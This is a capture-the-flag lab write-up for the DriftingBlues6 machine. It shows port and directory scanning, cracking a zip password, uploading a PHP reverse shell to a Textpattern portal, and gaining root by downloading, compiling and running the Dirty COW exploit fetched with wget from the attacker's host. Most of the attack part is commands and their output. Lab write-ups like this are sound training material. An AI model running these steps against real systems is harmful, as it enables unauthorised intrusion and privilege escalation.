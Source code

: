 ## Initial NMAP scan:

```bash
┌──(parallels㉿V35HR4J)-[/tmp]
└─$ nmap 192.168.205.219 -T4
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-18 17:17 +0545
Nmap scan report for 192.168.205.219
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
80/tcp   open     http
1031/tcp filtered iad2

Nmap done: 1 IP address (1 host up) scanned in 17.83 seconds
```

There's some hint for us on `/robots.txt`:

```
User-agent: *
Disallow: /textpattern/textpattern

dont forget to add .zip extension to your dir-brute
;)
```

```bash
┌──(parallels㉿V35HR4J)-[/tmp]
└─$ ffuf -u http://192.168.205.219/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c -ic -e .zip

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.205.219/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Extensions       : .zip 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

index                   [Status: 200, Size: 750, Words: 44, Lines: 76]
                        [Status: 200, Size: 750, Words: 44, Lines: 76]
db                      [Status: 200, Size: 53656, Words: 196, Lines: 212]
robots                  [Status: 200, Size: 110, Words: 11, Lines: 6]
spammer                 [Status: 200, Size: 179, Words: 3, Lines: 2]
spammer.zip             [Status: 200, Size: 179, Words: 3, Lines: 2]
```

After downloading the spammer.zip file, it is password protected, we can use `zip2john` to bruteforce the password:

```bash
┌──(parallels㉿V35HR4J)-[~/tjnull/DriftingBlues6]
└─$ zip2john spammer.zip 
ver 2.0 spammer.zip/creds.txt PKZIP Encr: cmplen=27, decmplen=15, crc=B003611D ts=ADCB cs=b003 type=0
spammer.zip/creds.txt:$pkzip$1*1*2*0*1b*f*b003611d*0*27*0*1b*b003*2d41804a5ea9a60b1769d045bfb94c71382b2e5febf63bda08a56c*$/pkzip$:creds.txt:spammer.zip::spammer.zip
                                                                                                                                                                                
┌──(parallels㉿V35HR4J)-[~/tjnull/DriftingBlues6]
└─$ zip2john spammer.zip>hash.txt
ver 2.0 spammer.zip/creds.txt PKZIP Encr: cmplen=27, decmplen=15, crc=B003611D ts=ADCB cs=b003 type=0
                                                                                                                                                                                
┌──(parallels㉿V35HR4J)-[~/tjnull/DriftingBlues6]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt       
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
myspace4         (spammer.zip/creds.txt)     
1g 0:00:00:00 DONE (2023-12-18 17:29) 100.0g/s 2457Kp/s 2457Kc/s 2457KC/s christal..280789
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We got the password myspace4, now we can unzip the file and get the creds.txt file:

```bash
┌──(parallels㉿V35HR4J)-[~/tjnull/DriftingBlues6]
└─$ unzip spammer.zip 
Archive:  spammer.zip
[spammer.zip] creds.txt password: 
 extracting: creds.txt 

┌──(parallels㉿V35HR4J)-[~/tjnull/DriftingBlues6]
└─$ cat creds.txt                         
mayer:lionheart
```

Now since we know the creds, we can try to login to the portal, after loggining in we can see that we could actually upload a file, we can upload a php reverse shell, and trigger it through http://192.168.205.219/textpattern/files/shell.php which gives us a shell as www-data.

## Privilege Escalation:

```bash
www-data@driftingblues:/var$ uname -a
uname -a
Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux
```
dirty.c
We can see that the kernel version is 3.2.0-4-amd64, we can search for any exploit for this kernel version, we can find this [article](https://www.exploit-db.com/exploits/40839) which explains the exploit vulnerable to this kernel version.

```bash
www-data@driftingblues:/tmp$ wget 192.168.45.230:1234/dirty.c
wget 192.168.45.230:1234/dirty.c
--2023-12-18 05:56:37--  http://192.168.45.230:1234/dirty.c
Connecting to 192.168.45.230:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3713 (3.6K) [text/x-csrc]
Saving to: `dirty.c'

100%[======================================>] 3,713       --.-K/s   in 0s      

2023-12-18 05:56:37 (952 MB/s) - `dirty.c' saved [3713/3713]

www-data@driftingblues:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
gcc -pthread dirty.c -o dirty -lcrypt
www-data@driftingblues:/tmp$ chmod +x dirty&&./dirty
chmod +x dirty&&./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: test123

Complete line:
firefart:fiKBbJoc.sTuE:0:0:pwned:/root:/bin/bash

www-data@driftingblues:/tmp$ su firefart
su firefart
Password: test123

firefart@driftingblues:/tmp# id&&cat /root/proof.txt
id&&cat /root/proof.txt
uid=0(firefart) gid=0(root) groups=0(root)
1c71ffc08c419a2f6a00525cb7d34e32
```
